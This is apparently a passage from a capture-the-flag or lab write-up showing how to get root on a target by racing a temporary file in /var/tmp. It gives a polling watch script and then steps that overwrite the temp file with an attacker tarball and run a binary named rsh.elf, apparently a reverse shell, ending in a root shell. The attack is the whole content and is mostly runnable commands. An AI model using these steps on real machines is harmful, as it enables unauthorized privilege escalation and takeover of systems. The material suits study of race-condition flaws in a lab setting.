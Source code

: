 Make a script to watch for the contents of `/var/tmp` to change:

```sh
#!/bin/bash

BEFORE=$(ls -alh /var/tmp)
while true; do
  AFTER=$(ls -alh /var/tmp)
  if ! cmp -s -- <(echo $BEFORE) <(echo $AFTER); then
    break;
  fi
  sleep 1
done;

ls -alh /var/tmp
```

Then run the following to exploit:

```sh
# wait for tempfile to show up
./watch.sh
cp derp.tar.gz .01c7c6dbcaed40aebd98e71a0dad16dd8ca0138e   # replace hash with file name that appeared
# wait for 'check' directory to show up
./watch.sh
cd check/var/www/html
./rsh.elf
```

And that gives us a root shell!
